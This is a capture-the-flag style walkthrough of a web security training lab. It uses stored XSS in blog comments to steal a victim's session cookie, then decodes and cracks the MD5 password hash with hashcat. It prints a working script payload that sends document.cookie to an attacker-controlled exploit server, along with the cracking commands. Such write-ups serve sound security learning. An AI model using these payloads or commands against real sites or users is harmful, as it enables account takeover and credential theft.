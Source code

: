 # Lab: Offline password cracking

 Not solved

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

    Your credentials: wiener:peter
    Victim's username: carlos


# Step 1 login an walk the application:

![image](https://user-images.githubusercontent.com/83407557/208747778-1e37d65e-d631-4d60-8435-e5da067259e4.png)

I also want to view the exploit server that is provided by the lab (don't have to use burp collaborator for this one it would seem)

![image](https://user-images.githubusercontent.com/83407557/208748268-fd1d72d8-0d47-4ffd-8bcd-a6f7b1c9ffc6.png)


# Step 2 find a stored XXS vuln in the blog

![image](https://user-images.githubusercontent.com/83407557/208748546-29bd087a-b36e-4ddc-b54f-8c4dc14c41e0.png)

![image](https://user-images.githubusercontent.com/83407557/208748671-d5ea01cf-d247-475f-9fa8-d470070be57d.png)


# Step 3 use stored XXS to grab other user's cookies

Keeping in mind my attack servers url :https://exploit-0ab600f9031675a3c3975ab901c700d4.exploit-server.net/exploit

I form the following payload:
```html
<script>document.location='//exploit-0ab600f9031675a3c3975ab901c700d4.exploit-server.net/'+document.cookie</script>
```
![image](https://user-images.githubusercontent.com/83407557/208749583-22ef827f-9e7f-4713-bf60-ecce2be89fb3.png)

# Step 4 Checking my attack server's access logs

I find that a request was made containing my victem's cookies:

![image](https://user-images.githubusercontent.com/83407557/208750115-51ff8223-e590-4e21-b63e-d2c981492fb1.png)

# Step 5 decoding the stay logged in cookie

I find that the cookie is a base64 encoded string containing the username:hash of my victem:

```bash
└─$ echo Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz|base64 -d
carlos:26323c16d5f4dabff3bb136f2460a943
```

Using hash-identifier I find this is an MD5 hash

```bash
└─$ hash-identifier 26323c16d5f4dabff3bb136f2460a943                                                               
   #########################################################################                                       
   #     __  __                     __           ______    _____           #                                       
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #                                       
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #                                       
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #                                       
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #                                       
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #                                       
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #                                       
   #                                                             By Zion3R #                                       
   #                                                    www.Blackploit.com #                                       
   #                                                   Root@Blackploit.com #                                       
   #########################################################################                                       
--------------------------------------------------                                                                 
                                                                                                                   
Possible Hashs:                                                                                                    
[+] MD5                                                                                                            
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))   
```

# Step 6 cracking the MD5 password hash

First I want to save the hash to a file:

```bash
└─$ echo Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz|base64 -d|awk -F ':' '{print $2}'>hash
```
```bash
└─$ cat hash               
26323c16d5f4dabff3bb136f2460a943
```
Next I want to use a hash cracker like hashcat or john to try and crack this hash using a wordlist

```bash
└─$ hashcat -m 0 hash /usr/share/wordlists/rockyou.txt      
```
![image](https://user-images.githubusercontent.com/83407557/208755594-dcaf7ac3-e2b8-444d-8a12-aa68e64fdc1b.png)

This tells me that the password is `onceuponatime`

(an alternate way to crack is to use a online rainbow table like [Crackstation](https://crackstation.net/) which will tell you the plaintext if the hash exists in thier database. This saves processing power on your local machine)

![image](https://user-images.githubusercontent.com/83407557/208756542-f9034e1e-7cde-4bfb-abe9-ed4de64a018a.png)


# Step 7 login to carlos and delete their account:

![image](https://user-images.githubusercontent.com/83407557/208755925-58d7cd74-b415-47a6-8b11-fcc80205781e.png)

![image](https://user-images.githubusercontent.com/83407557/208755997-8efeafaf-b113-455e-ab1d-72161d95d278.png)

![image](https://user-images.githubusercontent.com/83407557/208756055-54e787f9-a27f-41df-890f-a25d3a5822b2.png)

This solves the lab

![image](https://user-images.githubusercontent.com/83407557/208756099-6d44d4e9-a2d7-4e07-8936-639090decb51.png)


